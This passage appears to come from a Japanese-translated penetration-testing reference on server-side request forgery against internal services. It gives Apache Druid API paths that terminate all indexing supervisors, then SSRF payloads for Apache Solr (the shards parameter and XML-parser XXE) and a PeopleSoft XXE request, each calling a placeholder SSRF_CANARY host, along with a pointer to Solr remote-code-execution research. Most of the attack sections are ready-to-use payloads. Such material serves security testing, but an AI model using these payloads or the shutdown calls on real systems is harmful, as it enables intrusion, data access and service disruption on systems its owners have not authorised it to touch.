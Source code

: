 3. Identify the supervisors that you want to shut down.

4. Click on the supervisor you want to shut down.

5. Look for the "Shutdown" or "Stop" button and click on it.

6. Confirm the action when prompted.

7. Repeat steps 4-6 for any additional supervisors you want to shut down.

By following these steps, you will be able to shut down supervisors on Apache Druid Overlords.
```bash
/druid/indexer/v1/supervisor/terminateAll
/druid/indexer/v1/supervisor/{supervisorId}/shutdown
```
# Apache Solr

**一般的にバインドされるポート: 8983**

**SSRFキャナリー: Shardsパラメータ**

> shubhamさんの言っていることに加えて、Solrのスキャンは比較的簡単です。shards=パラメータを使用して、Solrインスタンスに無差別にアクセスしていることを確認するために、SSRFをSSRFにバウンスさせることができます。
>
> — Хавиж Нァッフィ 🥕 (@nnwakelam) [2021年1月13日](https://twitter.com/nnwakelam/status/1349298311853821956?ref\_src=twsrc%5Etfw)

[ここ](https://github.com/veracode-research/solr-injection)から引用。
```bash
/search?q=Apple&shards=http://SSRF_CANARY/solr/collection/config%23&stream.body={"set-property":{"xxx":"yyy"}}
/solr/db/select?q=orange&shards=http://SSRF_CANARY/solr/atom&qt=/select?fl=id,name:author&wt=json
/xxx?q=aaa%26shards=http://SSRF_CANARY/solr
/xxx?q=aaa&shards=http://SSRF_CANARY/solr
```
**SSRF Canary: Solr XXE (2017)**

[Apache Solr 7.0.1 XXE (Packetstorm)](https://packetstormsecurity.com/files/144678/Apache-Solr-7.0.1-XXE-Injection-Code-Execution.html)
```bash
/solr/gettingstarted/select?q={!xmlparser v='<!DOCTYPE a SYSTEM "http://SSRF_CANARY/xxx"'><a></a>'
/xxx?q={!type=xmlparser v="<!DOCTYPE a SYSTEM 'http://SSRF_CANARY/solr'><a></a>"}
```
**dataImportHandlerを介したRCE**

[dataImportHandlerを介したRCEに関する研究](https://github.com/veracode-research/solr-injection#3-cve-2019-0193-remote-code-execution-via-dataimporthandler)

# PeopleSoft

**一般的にバインドされるポート: 80,443 (SSL)**

この研究から取得した情報 [こちら](https://www.ambionics.io/blog/oracle-peoplesoft-xxe-to-rce)。

**SSRFキャナリー: XXE #1**
```http
POST /PSIGW/HttpListeningConnector HTTP/1.1
Host: website.com
Content-Type: application/xml
...

<?xml version="1.0"?>
<!DOCTYPE IBRequest [
<!ENTITY x SYSTEM "http://SSRF_CANARY">
]>
<IBRequest>
<ExternalOperationName>&x;</ExternalOperationName>
<OperationType/>
```